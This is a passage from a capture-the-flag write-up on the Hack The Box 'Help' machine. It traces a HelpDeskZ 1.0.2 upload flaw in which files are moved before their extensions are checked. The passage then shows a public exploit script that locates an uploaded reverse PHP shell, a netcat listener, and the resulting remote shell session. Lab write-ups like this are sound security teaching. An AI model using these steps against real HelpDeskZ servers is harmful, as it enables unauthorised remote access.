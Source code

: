 Further down we see a function named "verifyAttachment" whose return value is assigned to "fileverification" which is used as the conditional statement in the switch-case that throws our "File is not allowed." error. We're getting warmer... Let's back up though, "verifyAttachment" is only called in the else block. To trace the code flow backwards, let's look at why we're failing the if condition in the first place. The if statement conditional is true if the function "move_uploaded_file" returns false. The obvious next step is to look up that function in the [php docs][4].

Here's the function definition:

```php
move_uploaded_file ( string $filename , string $destination ) : bool
```

Their description is:

```text
This function checks to ensure that the file designated by filename is a valid upload file  
(meaning that it was uploaded via PHP's HTTP POST upload mechanism). If the file is valid,  
it will be moved to the filename given by destination.
```

So as long as the file is uploaded via PHP's HTTP POST mechanism, the function returns True. Since the file was uploaded using this mechanism the function will return True in our case and according to their description, the file will be moved. We've just realized our second vulnerability in this code. The developer's logic is backwards. He should be checking the extension first, and then moving the file only if the file extension check passes. Instead, he moves the file before checking the extension every time. These small oversights by developers can be devastating as this example shows.

To summarize our progress so far, we now know where our uploaded files go on the server and we've realized we can upload php files despite what errors the website gives us. Our two road blocks are conquered, so it's time to exploit.

## Exploitation: 2

The exploit script takes two arguments. The first is the base URL where files are uploaded which we found by looking at the code. The second argument is the name of the file we uploaded.

```text
~/ctf/htb/help λ python 40300_2.py http://10.10.10.121:/support/uploads/tickets/ shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121:/support/uploads/tickets/c9e0806a655e83dab72b55f60cbbf84f.php
```

Using the methods described above and as seen in the code, it found our uploaded file which is a reverse php shell. We can set up our netcat listener in preparation:

```text
~/ctf/htb/help λ nc -l -n -v -p 9002
listening on [any] 9002 ...
```

Now simply browse to the URL where our reverse shell is located and it'll trigger the connection back to our waiting listener:

```text
~/ctf/htb/help λ nc -l -n -v -p 9002
listening on [any] 9002 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.10.121] 37802
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 12:51:29 up 6 days, 13:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$
```


[1]: https://www.hackthebox.eu/home/users/profile/3079
[2]: https://www.hackthebox.eu
[3]: https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php
[4]: https://www.php.net/manual/en/function.move-uploaded-file.php